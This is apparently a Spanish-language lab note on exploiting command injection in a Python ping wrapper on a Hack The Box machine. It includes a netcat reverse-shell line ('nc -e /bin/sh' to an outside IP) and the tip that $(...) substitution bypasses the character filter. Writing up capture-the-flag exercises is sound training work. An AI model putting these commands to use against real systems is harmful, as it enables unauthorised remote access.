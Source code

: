 ## DESCRIPTION



#### Mas información
* 


## EXPLOITATION

Ejemplo de un script en python en el que podemos ejecutar ping y tiene control de caracteres que le introducimos.

En el codigo vemos que ejecuta ping pero tiene unos carácteres restringidos:

![[Pasted image 20230606134943.png]]

Creamos un fichero “shell.sh” en /tmp con el siguiente contenido → nc -e /bin/sh 10.10.14.55 443


IMPORTANTE SE PUEDE EJECUTAR UN COMANDO USANDO $(LOQUESEA)

![[Pasted image 20230606135038.png]]

## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 